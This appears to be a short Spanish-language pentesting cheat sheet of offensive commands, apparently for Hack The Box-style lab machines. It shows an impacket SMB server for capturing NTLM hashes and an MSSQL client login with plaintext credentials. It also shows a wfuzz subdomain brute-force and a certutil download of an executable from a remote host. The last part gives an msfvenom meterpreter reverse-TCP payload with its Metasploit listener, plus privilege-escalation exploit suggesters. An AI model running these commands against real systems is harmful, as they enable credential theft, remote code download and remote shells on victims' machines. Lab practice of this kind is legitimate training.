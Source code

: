 



# smb

crear una carpeta compartida rapida por smb y poder capturar hashes NTLM

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```



## mssql

```bash
impacket-mssqlclient  sequel.htb/PublicUser:GuestUserCantWrite1@sequel.htb
```





## Subdomain enumeration

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://flight.htb/" -H "Host: FUZZ.flight.htb" --hl 154
```






## File trasnfer

```bash
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```



## PAYLOAD msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=4444 -f exe -o shell.exe
```


### Listener

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.20
set LPORT 4444
set ExitOnSession false
exploit -j

```


## Modules



```bash
run post/multi/recon/local_exploit_suggester
```





## Windows-exploit-suggester


tenemos que ejecutar primero esto en la maquina *windows* victima

```cmd
sysinfo
```


----------


```bash
python2 /opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --update
```

```bash
/opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2020-05-13-mssb.xls --systeminfo sysinfo
```